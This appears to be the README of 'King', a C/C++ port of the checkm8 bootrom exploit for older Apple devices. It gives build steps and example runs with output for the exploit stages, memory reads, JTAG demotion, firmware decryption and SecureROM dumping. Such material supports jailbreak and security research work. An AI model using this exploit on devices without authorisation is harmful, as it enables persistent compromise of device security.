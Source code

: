 # King

Port of [@axi0mX's](https://twitter.com/axi0mx) checkm8 exploit ([ipwndfu](https://github.com/axi0mX/ipwndfu)) to C/C++

**Supported devices:**

* `T7000`
  * `Apple TV (4th generation)`
  * `HomePod`
  * `iPad mini 4`
  * `iPhone 6`
  * `iPhone 6 Plus`
  * `iPod touch (6th generation)`
* `S8000` and `S8003`
  * `iPad (5th generation)`
  * `iPhone 6s`
  * `iPhone 6s Plus`
  * `iPhone SE`
* `T8010`
  * `iPad (6th generation)`
  * `iPhone 7`
  * `iPhone 7 Plus`

**Works on:**

 * `Windows` (see notes below)
 * `Linux` (tested on `Ubuntu 16.04` and `Ubuntu 19.10`)
 * `MacOS` (cmake-building not working now, do it yourself)


## Windows notes

Requimpents:

* `libusbK` driver (can be installed with [zadig](https://zadig.akeo.ie/))
* `libusb` with fixed `MAX_PATH_LENGTH` ([see this PR](https://github.com/libusb/libusb/pull/699))

## Compilation

```bash
cd King
mkdir build
cd build
cmake ..
make
cp -R ../bin .
```

## Run checkm8 exploit
```
sudo ./king checkm8
[*] Shellcode generated ...
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 1, heap grooming ...
[*] stage 2, usb setup, send 0x800 of 'A', sends no data
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] stage 3, exploit
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33]
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[!] Device is now in pwned DFU Mode! :D
```

## Read memory
```
sudo ./king read64 0x100000280
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 36322D746F6F4269
```

```
sudo ./king read32 0x100000280
[*] Device Serial Number: CPID:8010 CPRV:11 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] [100000280] = 6F6F4269
```

## Demote device (Enable JTAG)
```
[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8]
[*] DemotionReg: 287
[*] Setting Value...
[*] New DemotionReg: 286
[!] Succeeded to enable the JTAG!
```

## Decrypt and unpack IM4P firmware image
```
sudo ./king decryptIMG iBoot.d10.RELEASE.im4p   
decryptIMG4
IM4P: ---------
type: ibot
desc: iBoot-5540.0.129
size: 0x00072340

KBAG
num: 1
3c8b957e2bca7ce6e56b41f86490f535
9fde3e44de15dac204f895378d0e7eb03ecc2b67bb1958bb2c70508ea63875f5
num: 2
af60c224bd43c632a17495816dca1ae6
bada1c3314217e7dd6b903d4c3caf3a7aa0f214ec40f13a1085d04bb2d05dc25

[*] Device Serial Number: CPID:8010 ... SRTG:[iBoot-2696.0.0.1.33] PWND:[checkm8][*] Decrypted Keybag: 
DF97....15CE
[*] Decrypted Key: 
369......5CE
[*] Decrypted IV: 
DF........E7
[!] File succesfully decrypted and written to: iBoot.d10.RELEASE.im4p_decrypted
```

## Hexdump
```
C:\src\King\build>Release\king.exe hexdump 0x100000200 0x90
[*] Device Serial Number: CPID:7000 ... SRTG:[iBoot-1992.0.0.1.19] PWND:[checkm8]
0000000100000200: 53 65 63 75 72 65 52 4f 4d 20 66 6f 72 20 74 37  SecureROM for t7
0000000100000210: 30 30 30 73 69 2c 20 43 6f 70 79 72 69 67 68 74  000si, Copyright
0000000100000220: 20 32 30 31 33 2c 20 41 70 70 6c 65 20 49 6e 63   2013, Apple Inc
0000000100000230: 2e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000240: 52 45 4c 45 41 53 45 00 00 00 00 00 00 00 00 00  RELEASE.........
0000000100000250: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000260: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000270: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0000000100000280: 69 42 6f 6f 74 2d 31 39 39 32 2e 30 2e 30 2e 31  iBoot-1992.0.0.1
```

## SecureROM dumping
```
C:\src\King\build>Release\king.exe dump-rom
[*] Device Serial Number: CPID:7000 ... SRTG:[iBoot-1992.0.0.1.19] PWND:[checkm8]
Saved: SecureROM-t7000si-RELEASE-1992.0.0.1.19.dump
```
